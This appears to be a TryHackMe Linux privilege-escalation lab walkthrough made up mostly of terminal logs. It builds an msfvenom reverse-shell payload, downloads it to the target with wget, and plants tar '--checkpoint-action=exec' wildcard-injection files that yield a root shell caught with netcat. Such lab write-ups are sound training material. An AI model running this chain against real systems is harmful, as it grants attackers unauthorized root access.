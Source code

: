```
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```

1. Read and follow along with the above.

```
kali@kali:~/CTFs/tryhackme/Linux PrivEsc$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.106.222 LPORT=9001 -f elf -o shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell.elf
```

```
kali@kali:~/CTFs/tryhackme/Linux PrivEsc$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.206.164 - - [30/Sep/2020 15:01:57] "GET /shell.elf HTTP/1.0" 200 -
```

```
user@debian:~$ wget http://10.8.106.222/shell.elf
--2020-09-30 09:01:58--  http://10.8.106.222/shell.elf
Connecting to 10.8.106.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 194 [application/octet-stream]
Saving to: “shell.elf”

100%[====================================================>] 194         --.-K/s   in 0s      

2020-09-30 09:01:58 (34.0 MB/s) - “shell.elf” saved [194/194]

user@debian:~$ chmod +x /home/user/shell.elf
user@debian:~$ touch /home/user/--checkpoint=1
user@debian:~$ touch /home/user/--checkpoint-action=exec=shell.elf
user@debian:~$ 
```

```
kali@kali:~/CTFs/tryhackme/Linux PrivEsc$ nc -nvlp 9001listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.206.164] 34653

whoami
root
```

```
user@debian:~$ rm /home/user/shell.elf
user@debian:~$ rm /home/user/--checkpoint=1
user@debian:~$ rm /home/user/--checkpoint-action=exec=shell.elf
user@debian:~$ 
```
